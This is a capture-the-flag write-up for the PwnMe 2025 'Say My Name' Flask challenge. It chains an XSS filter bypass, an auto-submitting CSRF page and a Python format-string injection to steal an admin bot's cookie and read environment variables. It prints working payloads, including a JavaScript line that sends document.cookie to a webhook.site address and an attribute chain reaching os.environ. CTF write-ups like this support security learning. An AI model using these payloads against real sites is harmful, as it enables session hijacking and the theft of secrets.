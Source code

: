 # Say My Name PwnMe CTF

PwnMe2025 featured an XSS/CSRF/SSTI challenge called Say My Name. The challenge, written in Python using Flask, featured an application that allowed users to put (and have reflected back to them) their name and report URLs which an admin bot would visit. The admin bot could also access a `http://127.0.0.1:5000/admin` endpoint, authenticated with a random token provided to it on start up, which would reflect a `prompt` URI parameter.

## Getting Initial XSS
We knew that any solution would involve getting the bot's `X-Admin-Token` cookie (Its formatted like a header but its a cookie). The best way to steal that would be through executing JavaScript in its context which means finding Cross-Site Scripting (XSS). 

The application used this function to receive and sanitize input when reflecting your name back to you:
```javascript
@app.route('/your-name', methods=['POST'])
def your_name():
    if request.method == 'POST':
        name = request.form.get('name')
        return Response(render_template('your-name.html', name=sanitize_input(name)), content_type='text/html')

def sanitize_input(input_string):
    input_string = input_string.replace('<', '')
    input_string = input_string.replace('>', '')
    input_string = input_string.replace('\'', '')
    input_string = input_string.replace('&', '')
    input_string = input_string.replace('"', '\\"')
    input_string = input_string.replace(':', '')
    return input_string
```

It authenticates with the admin cookie declared here
```python
def visit_report(url, X_Admin_Token):
    ...
    browser.get('http://127.0.0.1:5000/')
    cookie = {
        'name':'X-Admin-Token', 
        'value': X_Admin_Token,
        'secure': False,
        'httpOnly': False,
        'expiry': None
    }
    browser.add_cookie(cookie)
    print(f'Visit : {url}')
    browser.get(url)
    WebDriverWait(browser, 5).until(lambda r: r.execute_script('return document.readyState') == 'complete')
```

It proceeded to put the input into this template
```html
<div class="image-container">
    <img src="{{ url_for('static', filename='images/cat.jpg') }}" alt="cat">
    <a class="text" id="behindthename-redirect" href='https://www.behindthename.com/names/search.php?terms={{name}}' onfocus='document.location="https://www.behindthename.com/names/search.php?terms={{name|safe}}"'>Hello {{name}} !</a>
</div>
```

As you can see, the anchor tag's `onfocus` attribute is labeled as safe, which means it disables Flask's automatic escaping mechanism. This makes it a prime target to look at. The custom sanitization function strips dangerous characters except for `"` which it replaces with `\"`. The issue with this is that `\` is not checked. This means  `\"; alert(1);//` is inserted as `onfocus='document.location="https://www.behindthename.com/names/search.php?terms=\\"; alert(1);//"'`. The inputted backslash escapes the added backslash and the double quote is parsed as syntax. Everything else will execute as JavaScript syntax when the `onfocus` attribute fires.


We need to steal the admin's cookie and very nicely they set the cookie to not have the HTTP Only attribute meaning it can be accessed by any JavaScript on the page. We can steal the cookie by making a request to a webhook with the cookie embedded. I had trouble getting a `fetch` or `XMLHttpRequest` working, so I just set `document.location` to the target URL, a more blunt approach.

This works sometimes, but it still triggers the first part of the `onfocus` attribute which means the next statements might not execute before the location changes. We can solve this by multiplying the original string by 0, creating a Not a Number (NaN) value and being skipped by the JavaScript. We used backtick templating syntax in order to alleviate issues with sanitization and better integrate variables into the string. We need `String.fromCharCode(0x3A)` because colons were being stripped from the input.
```
'\" * 0; document.location = `https${String.fromCharCode(0x3A)}//webhook.site/44ca3e78-8db9-4f3d-8844-9c5c91d95432?cookie=${document.cookie}&origin=${document.location.origin}&time=${Date.now()}`;//'
```

## Executing Our Malicious Request (CSRF)
In order to get the XSS to fire in the context of the admin bot, we need to set up a scenario to send requests on on its behalf. We can not use the report functionality to send it the XSS payload because the `/your-name` page takes in data via a POST request. Instead we must send it to an attacker controlled page, which will automatically send our request to the `/your-name` endpoint and get the admin token. This is a Cross-Site Request Forgery attack, the browser automatically sends the victim's cookies to the requested page when it processes the form action. 

This is our html page:
```html
<html>
    <form id="f" action="http://127.0.0.1:5000/your-name#behindthename-redirect" method="POST" target="_self">
        <input class="input" type="text" id="name" name="name" value='\" * 0; document.location = `https${String.fromCharCode(0x3A)}//webhook.site/44ca3e78-8db9-4f3d-8844-9c5c91d95432?cookie=${document.cookie}&origin=${document.location.origin}&time=${Date.now()}`;//' required>
        <button type="submit">Submit</button>
    </form>    
    <script>
        f.submit();
    </script>
</html>
```
It creates a form which is automatically submitted with default values to the `httP://127.0.0.1:5000` domain which we identified earlier as having the admin token, using a POST request to `/your-name` to send our XSS payload, and then using the `#behindthename-redirect` fragment to trigger the `onfocus` attribute. 

While the source code is set up to allow HTTP requests, the CTF infrastructure required using HTTPS so we hosted our HTML page using Github Pages. 

## Escalating with Python Jinja Template Injection
In order to leak the `FLAG` environment variable we needed to turn the admin privileges into some sort of Remote Code Execution. This was the functionality the admin token gave us.

This is the Python backend which inserted `cmd` directly into the HTML via a template. 
```python
@app.route('/admin', methods=['GET'])
def admin():
    if request.cookies.get('X-Admin-Token') != X_Admin_Token:
        return 'Access denied', 403
    
    prompt = request.args.get('prompt')
    return render_template('admin.html', cmd=f"{prompt if prompt else 'prompt$/>'}{run_cmd()}".format(run_cmd))
```

The `run_cmd()` function is called but it is not useful to us because this is all it does:
```python
def run_cmd(): # I will do that later
    pass
```

The important statement is how the prompt URI parameter which is inserted using both an f-String and the format function.
```python
f"{prompt if prompt else 'prompt$/>'}{run_cmd()}".format(run_cmd)
``` 
The f-String will insert the prompt parameter and then the `format(run_cmd)` function will apply. The `format()` function will insert its first parameter at the first occurence of `{0}` in the string (and subsequent parameters at subsequently indexed curly braces). 
If we make our `prompt` param `{0}` we get the following output (the None is the return value from `run_cmd()`). 
```
function at <0xaddress>None
```
In this case `cmd` is formatting in the reference to the function. This opens us up to Server Side Template Injection. We can use the template to access server side references, which in Python is very powerful. Python allows us to access inherited attributes, methods, and values to turn pretty much any type of injection into some sort of Remote Code Execution (RCE). In this case, we are unable to call functions but we can still get around that. 


We can use `{0.__globals__[__builtins__].help.__call__.__globals__[sys].modules[os].environ}` to access the environment variables. The `__globals__[__builtins__]` attributes allow us to use all of the global objects and from there we can work our way through to `sys` and then `environ`. This methodology works even in sandbox environments. For more information about SSTI you should check out [Jinja2 SSTI by Hacktricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html).

## Misc Problems
We ran into a couple of issues throughout the challenge, most notably the report functionality was caching our requests. This meant that the latest updates of our payloads were not being run, and ultimately we had to switch both webhooks and Github Pages. We determined and tested for caching by including a timestamp in our requests. We also realized that `http://localhost:5000/` does not receive the same cookies as `http://127.0.0.1:5000/`. 


## ACK
Shout out Pranav and Camden, without whom this I could not solve this challenge.